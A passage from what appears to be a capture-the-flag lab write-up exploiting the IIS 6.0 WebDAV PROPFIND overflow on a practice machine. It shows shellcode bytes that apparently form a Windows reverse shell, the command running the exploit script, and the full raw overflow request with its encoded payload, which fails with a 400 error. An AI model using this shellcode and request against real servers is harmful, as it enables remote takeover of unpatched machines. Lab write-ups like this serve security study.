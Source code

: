 ```
shellcode += b"\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
shellcode += b"\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
shellcode += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc"
shellcode += b"\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
shellcode += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2"
shellcode += b"\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
shellcode += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f"
shellcode += b"\x6a\x00\x53\xff\xd5"

```

Now I can add that into the script. I’ll also change the target IP from 127.0.0.1 to 10.10.10.14.

This failed me:

```

root@kali# python iis6-webdav-exploit.py
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 0
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ
￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ
￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ
￢ﾧﾧ￦ﾠﾁ`1dP0R
8u};}$uXX$fￓﾋI:I41|,
KXￓﾋ￐ﾉD$$[[aYZQ__Z]h32hws2_ThLw&ￕﾸ)TPh)kPPPP@P@Phￕﾗjh
/hjVWhtaￕﾅt
          uhVhcmdWWW1jYVfD$<D$DTPVVVFVNVVSVhy?ￕﾉNVF0`ￕﾻVh<|
uGrojS>

HTTP/1.1 400 Bad Request
Content-Type: text/html
Date: Wed, 27 May 2020 20:19:05 GMT
Connection: close
Content-Length: 20

<h1>Bad Request</h1>  

```

In doing some reading, it seems that this exploit requires some specifics things about the shellcode, which led me to the next attempt.
